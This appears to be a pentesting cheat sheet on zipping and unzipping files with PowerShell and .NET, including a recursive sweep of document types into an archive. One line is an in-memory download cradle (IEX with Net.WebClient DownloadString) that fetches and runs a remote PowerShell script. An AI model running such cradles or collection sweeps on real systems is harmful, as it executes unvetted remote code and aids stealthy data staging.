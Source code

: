 # Zip

## 01 - PowerShell

### 1.1 - Archive

```
PS C:\> Compress-Archive -Path C:\path\to\file.txt -DestinationPath file.zip -CompressionLevel Fastest
```

Update with new files.

```
PS C:\> Compress-Archive -Path C:\path\to\file.txt -Update -DestinationPath file.zip -CompressionLevel Fastest
```

Archive multiple files.

```
PS C:\> Get-ChildItem file_1.txt,file_2.txt | Compress-Archive -DestinationPath file.zip -CompressionLevel Fastest

PS C:\> Get-ChildItem -Path file_1.txt,file_2.txt | Compress-Archive -DestinationPath file.zip -CompressionLevel Fastest

PS C:\> Get-ChildItem -Path file_1.txt,file_2.txt | Compress-Archive -Update -DestinationPath file.zip -CompressionLevel Fastest
```

Recursively archive files with specific file extensions

```
PS C:\> Get-ChildItem -Recurse -Path C:\path\to\directory\ -Include *.txt,*.pdf,*.doc,*.docx,*.jpg,*.jpeg,*.png,*.ppt,*.pptx,*.xls,*.xlsx -ErrorAction SilentlyContinue | Compress-Archive -Update -DestinationPath file.zip -CompressionLevel Optimal -Confirm

PS C:\> Get-ChildItem -Recurse -Path C:\path\to\directory\ -Include *.txt,*.pdf,*.doc,*.docx,*.jpg,*.jpeg,*.png,*.ppt,*.pptx,*.xls,*.xlsx -ErrorAction SilentlyContinue | Compress-Archive -Update -DestinationPath file.zip -CompressionLevel Optimal -Force
```

Recursively archive files with specific file extensions. Ensure the filenames are unique to avoid duplicates.

```
PS C:\> Get-ChildItem -Recurse -Path C:\path\to\directory\ -Include *.txt,*.pdf,*.doc,*.docx,*.jpg,*.jpeg,*.png,*.ppt,*.pptx,*.xls,*.xlsx -ErrorAction SilentlyContinue | Sort-Object | Get-Unique | Compress-Archive -DestinationPath unique-backup.zip -CompressionLevel Optimal -Force
```

TODO: Use a checksum hash to uniquely identity to archive the files to avoid exact duplicates with the names nor `Sort-Object` and `Get-Unique`.

### 1.2 - Extract

```
PS C:\> Expand-Archive -Path .\file.zip -DestinationPath C:\path\to\directory
```

## 02 - DotNET

### 2.1 - Archive

```powershell
PS C:\> Add-Type -Assembly 'System.IO.Compression.Filesystem'
$directory = "C:\path\to\directory\"
[IO.Compression.ZipFile]::CreateFromDirectory(($directory), "C:\path\to\archive.zip", "Optimal", $true)
```

### 2.2 - Extract

```powershell
PS C:\> Add-Type -Assembly 'System.IO.Compression.Filesystem'
[IO.Compression.ZipFile]::ExtractToDirectory('C:\path\to\file.zip', 'C:\Temp\')
```

## 03 - PowerShell Script

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/killswitch-GUI/PenTesting-Scripts/master/Invoke-EncryptedZip.ps1')
```

---
## References

- [killswitch-GUI: PenTesting-Scripts](https://github.com/killswitch-GUI/PenTesting-Scripts/blob/master/Invoke-EncryptedZip.ps1)